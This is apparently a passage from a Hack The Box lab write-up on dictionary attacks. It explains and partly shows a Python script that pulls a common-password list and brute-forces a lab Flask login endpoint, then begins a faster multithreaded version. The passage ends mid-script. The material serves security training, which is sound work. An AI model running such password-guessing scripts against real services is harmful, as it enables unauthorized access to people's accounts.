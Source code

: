 ```python
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

The Python script orchestrates the dictionary attack. It performs the following steps:

1. `Downloads the Wordlist`: First, the script fetches a wordlist of 500 commonly used (and therefore weak) passwords from SecLists using theÂ `requests`Â library.
2. `Iterates and Submits Passwords`: It then iterates through each password in the downloaded wordlist. For each password, it sends a POST request to the Flask application'sÂ `/dictionary`Â endpoint, including the password in the request's form data.
3. `Analyzes Responses`: The script checks the response status code after each request. If it's 200 (OK), it examines the response content further. If the response contains the "flag" key, it signifies a successful login. The script then prints the discovered password and the captured flag.
4. `Continues or Terminates`: If the response doesn't indicate success, the script proceeds to the next password in the wordlist. This process continues until the correct password is found or the entire wordlist is exhausted.

```shell-session
smoothment@htb[/htb]$ python3 dictionary-solver.py

...
Attempted password: turtle
Attempted password: tiffany
Attempted password: golf
Attempted password: bear
Attempted password: tiger
Correct password found: ...
Flag: HTB{...}
```

# Question
---

![Pasted image 20250213135222.png](../../../../IMAGES/Pasted%20image%2020250213135222.png)

Let's modify the script to make it faster:

```python
import requests
from concurrent.futures import ThreadPoolExecutor
import time

ip = "94.237.53.18"
port = 42926
MAX_THREADS = 50  # Optimal for network I/O bound tasks
BATCH_SIZE = 100  # Number of passwords to process before reporting progress

# Create a persistent session with connection pooling
session = requests.Session()
adapter = requests.adapters.HTTPAdapter(pool_connections=MAX_THREADS, pool_maxsize=MAX_THREADS)
session.mount('http://', adapter)

# Get password list with timeout and retry logic
passwords = []
try:
    resp = session.get(
```